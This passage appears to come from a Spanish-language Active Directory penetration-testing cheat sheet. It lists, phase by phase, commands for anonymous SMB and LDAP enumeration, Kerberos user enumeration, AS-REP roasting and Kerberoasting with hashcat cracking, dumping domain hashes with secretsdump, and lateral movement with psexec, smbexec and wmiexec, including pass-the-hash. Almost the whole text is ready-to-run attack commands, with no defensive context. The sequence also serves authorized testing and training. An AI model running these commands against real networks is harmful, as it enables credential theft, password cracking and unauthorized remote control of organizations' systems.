 ### Fase 2: Enumeración sin credenciales

```bash
enum4linux-ng <IP>
smbmap -H <IP>
smbclient -L //<IP> -N
rpcclient -U "" -N <IP>
```

LDAP sin autenticación:

```bash
ldapsearch -x -H ldap://<IP> -b "dc=dominio,dc=local"
ldapdomaindump ldap://<IP> --no-auth
```

### Fase 3: Enumeración de usuarios

```bash
kerbrute userenum -d dominio.local users.txt --dc <IP>
```

### Fase 4: AS-REP Roasting

```bash
GetNPUsers.py dominio.local/ -no-pass -usersfile valid_users.txt -dc-ip <IP>
hashcat -m 18200 hash.txt rockyou.txt --force
```

### Fase 5: Kerberoasting

```bash
GetUserSPNs.py dominio.local/usuario:password -dc-ip <IP>
hashcat -m 13100 hash.txt rockyou.txt --force
```

### Fase 6: Extracción de información autenticada

```bash
ldapdomaindump ldap://<IP> -u dominio\\usuario -p contraseña
```

### Fase 7: Extracción de hashes

```bash
secretsdump.py dominio.local/usuario:contraseña@<IP>
# o con hash
secretsdump.py dominio.local/usuario@<IP> -hashes :<NTLMHASH>
```

### Fase 8: Movimiento lateral

```bash
psexec.py dominio.local/usuario:pass@<IP>
smbexec.py dominio.local/usuario:pass@<IP>
wmiexec.py dominio.local/usuario@<IP> -hashes :<NTLM>
```
